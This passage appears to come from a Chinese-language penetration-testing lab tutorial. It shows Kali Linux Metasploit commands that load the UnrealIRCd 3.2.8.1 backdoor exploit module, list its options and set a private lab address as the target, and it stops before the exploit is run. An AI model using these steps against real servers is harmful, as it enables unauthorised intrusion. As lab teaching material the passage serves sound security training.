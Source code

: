 在 Kali 终端中，输入命令使用该模块：

```
# 使用 use 命令，使用相应的模块

use exploit/unix/irc/unreal_ircd_3281_backdoor
```

![图片描述](../imgs/1480487734597.png-wm.png)

使用 show 命令显示参数，并设置相应的参数：

```
# 显示所要设置的参数
show options

# 使用命令，设置参数
set RHOST 192.168.122.102

```

![图片描述](../imgs/1480487885901.png-wm.png)
